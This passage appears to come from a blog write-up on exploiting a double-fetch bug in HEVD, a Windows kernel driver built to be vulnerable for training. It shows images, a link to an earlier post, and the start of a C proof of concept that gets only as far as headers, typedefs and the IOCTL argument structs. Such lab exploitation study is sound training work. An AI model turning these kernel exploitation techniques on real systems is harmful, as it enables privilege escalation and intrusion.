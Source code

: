 ![Disassembly in pseudo C](/assets/img/2025-02-06/overflow.PNG)

## Getting RCE

This is exactly the same as the [Stack Buffer Overflow](https://acebond.github.io/2025-01-23-windows-kernel-stack-buffer-overflow-exploitation-using-hevd.html) post.

![Disassembly in pseudo C](/assets/img/2025-02-06/works.png)

The full PoC:
```c
#include <Windows.h>
#include <Psapi.h>

#include <stdio.h>
#include <string.h>

typedef signed char i8;
typedef short       i16;
typedef int         i32;
typedef long long   i64;

typedef unsigned char      u8;
typedef unsigned short     u16;
typedef unsigned int       u32;
typedef unsigned long long u64;

typedef struct _DOUBLE_FETCH {
    PVOID  Buffer;
    SIZE_T Size;
} DOUBLE_FETCH, *PDOUBLE_FETCH;

typedef struct _IRP_ARGS {
    HANDLE        hHEVD;
    HANDLE        hEvent;
    DOUBLE_FETCH  pDoubleFetch;
} IRP_ARGS, *PIRP_ARGS;

#define ArraySize(x) (sizeof x / sizeof x[0])
```